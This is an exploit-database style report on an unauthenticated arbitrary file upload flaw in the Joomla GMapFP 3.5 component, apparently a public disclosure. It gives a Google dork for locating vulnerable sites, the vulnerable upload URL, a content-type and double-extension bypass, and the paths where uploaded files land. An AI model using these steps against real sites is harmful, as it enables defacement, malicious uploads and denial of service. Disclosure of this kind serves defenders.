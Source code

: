 # Reports

# Exploit Title: Joomla! Component GMapFP 3.5* - Unauthenticated Arbitrary File Upload
#Google Dork: inurl:''com_gmapfp''
#Date: 2020-03-27
#Exploit Author: ThelastVvV
#Vendor Homepage:https://gmapfp.org/
#Version:Version J3.5 /J3.5free
#Tested on: ubuntu

#Description:

An attacker can access the upload function of the application without authenticating to the application and also can upload files due the issues of unrestricted file uploads which can be bypassed by changing the content-type and name file too double extensions (file.html.gif)

#PoC:


Version J3.5
http://127.0.0.1/index.php?option=com_gmapfp&controller=editlieux&tmpl=component&task=edit_upload


https://i.imgur.com/TUHu1Oa.jpg


#once the attacker can locate the unauthenticated file upload form then the attacker can bypass the restriction by changing content-type and name file double extensions file.html.gif then can open file.html

#Impact
the attacker can upload malicious files can cause defacement of the site or uploading large amount of file til causes denial of service attack to Webapp/Server

#Dir File Path:
http://127.0.0.1///images/stories/gmapfp/test.html.gif
http://127.0.0.1///images/stories/gmapfp/test.html
http://127.0.0.1///images/gmapfp/test2.html.gif
http://127.0.0.1///images/gmapfp/test2.html.gif


# Issues are fixed,Please update to Last Version

